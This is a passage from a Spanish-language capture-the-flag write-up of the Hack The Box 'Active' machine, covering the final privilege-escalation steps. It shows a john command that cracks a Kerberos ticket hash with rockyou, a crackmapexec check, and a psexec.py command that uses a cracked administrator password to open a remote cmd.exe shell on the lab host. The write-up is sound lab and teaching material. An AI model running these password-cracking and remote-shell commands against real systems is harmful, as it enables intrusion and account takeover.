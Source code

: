 guardamos el ticket en un archivo y lo intentamos crackear con john:

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hash
```

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/ACTIVE/images/15.png)

vamos a controbar si estas credenciales son del usuario  administrador con crackmapexec:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/ACTIVE/images/16.png)

nos sale un **pwned!** y eso quiere decir que somos administradores del equipo, por lo que podemos establecer una conexion remota con **psexec.py**

```bash
psexec.py active.htb/Administrator:Ticketmaster1968@10.10.10.100 cmd.exe
```

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/ACTIVE/images/17.png)

y podemos ver las 2 flags:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/ACTIVE/images/18.png)